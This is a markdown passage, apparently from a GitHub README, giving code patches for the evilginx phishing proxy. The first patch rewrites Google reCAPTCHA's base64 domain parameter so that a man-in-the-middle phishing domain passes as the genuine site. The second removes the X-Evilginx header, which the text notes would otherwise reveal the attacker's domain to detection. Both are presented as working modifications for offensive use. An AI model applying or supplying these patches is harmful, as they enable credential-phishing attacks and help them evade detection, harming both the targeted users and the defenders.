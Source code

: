 ### Google Recaptcha Bypass by [@Desire](https://twitter.com/DWORKWITH)
- Google recaptcha encodes domain in base64 and includes it in `co` parameter in GET request.
- For Example in safe-domain (Demo) Login.
  ```
  https://www.google.com/recaptcha/enterprise/anchor?ar=1&k=6LePlpgbAAAAAPlPfzzXnJ1lrMTqRWgouzDcSd3b&co=aHR0cHM6Ly9hY2NvdW50cy5zYWZlLWRvbWFpbi5jb206NDQz&hl=en&v=vP4jQKq0YJFzU6e21-BGy3GP&size=invisible&cb=knko72z68i8y
- Here the parameter `co` contains string `co=aHR0cHM6Ly9hY2NvdW50cy5zYWZlLWRvbWFpbi5jb206NDQz` which is the base64 encoding of `https://accounts.safe-domain.com:443`
- In case if we use MITM in between with the mitm domain `fake-domain.com`, the value for the `co` parameter will be set to `https://accounts.fake-domain.com:443` encoded in base64 `aHR0cHM6Ly9hY2NvdW50cy5mYWtlLWRvbWFpbi5jb206NDQzCg`  which is not a valid domain , So we need to modify this parameter value to the original domain `https://accounts.safe-domain.com:443` base64 encoded `aHR0cHM6Ly9hY2NvdW50cy5zYWZlLWRvbWFpbi5jb206NDQz`

- Here is the work around code to implement this. Replace the code in evilginx2 `core/http_proxy.go` line 409
```
				// patch GET query params with original domains & bypass recaptcha
				if pl != nil {
					qs := req.URL.Query()
					if len(qs) > 0 {
						for gp := range qs {
							for i, v := range qs[gp] {
								qs[gp][i] = string(p.patchUrls(pl, []byte(v), CONVERT_TO_ORIGINAL_URLS))
							if qs[gp][i] == "aHR0cHM6Ly9hY2NvdW50cy5mYWtlLWRvbWFpbi5jb206NDQzCg" { // https://accounts.fake-domain.com:443
								qs[gp][i] = "aHR0cHM6Ly9hY2NvdW50cy5zYWZlLWRvbWFpbi5jb206NDQz" // https://accounts.safe-domain.com:443
							}
							}
						}
						req.URL.RawQuery = qs.Encode()
					}
				}
```

### Evilginx3 Easter Egg Patch (X-Evilginx Header)
- Evilginx3 contains easter egg code which adds a `X-Evilginx` header with each request.
- This header contains the Attacker Domain name. So it can be used for detection.
- To remove the Easter egg from evilginx just remove/comment below mentioned lines from the `core/http_proxy.go` file.
```
// Line 179
o_host := req.Host

// Line 330
req.Header.Set(p.getHomeDir(), o_host)

// Line 512
req.Header.Set(p.getHomeDir(), o_host)

